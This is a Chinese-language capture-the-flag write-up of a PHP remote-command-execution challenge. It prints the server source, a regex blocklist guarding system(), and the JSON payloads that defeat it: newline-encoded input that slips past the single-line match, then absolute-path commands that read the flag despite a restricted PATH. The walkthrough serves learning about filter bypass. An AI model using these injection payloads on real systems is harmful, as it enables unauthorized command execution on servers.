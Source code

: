 ![[Pasted image 20221224090401.png|500]]

---
首页长这样
![[Pasted image 20221224090929.png|400]]

要我们输入一个`json`字符串，通过`cmd`查询传递，因而推测键名也为`cmd`
```json
{"cmd": "ls"}
```

> Attempting to run command:  
index.php

尝试获取`index.php`的内容

```json
{"cmd": "cat index.php"}
```

> Hacking attempt detected

多次尝试无果，寻求`wp`帮助QAQ
然后发现原题离谱地提供了源码
![[Pasted image 20221224093015.png]]

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

通过`preg_match`实现`WAF`，直接通过`%0a`绕过单行匹配中的`.*`

```
{%0a"cmd": "cat index.php"%0a}
```

> Attempting to run command:

没有回显，非常奇怪nanoda

```php
putenv('PATH=/home/rceservice/jail');
```
![[Pasted image 20221224094442.png|500]]

emmm，这波是`PATH`被挟持了，问题不大，用绝对路径应该就行
尝试查看`/home/rceservice/jail`下面的东西
```
{%0a"cmd": "ls /home/rceservice/jail"%0a}
```

> Attempting to run command:
ls

好家伙，真就只给了`ls`
```
{%0a"cmd": "ls /home/rceservice"%0a}
```

> Attempting to run command:  
flag jail

```
{%0a"cmd": "/bin/cat /home/rceservice/flag"%0a}
```

> Attempting to run command:  
flag{f632fadd-2fad-439f-b5e1-75acf38cc1f3}

#Web #RCE #PHP #正则表达式 #json #环境变量 #挟持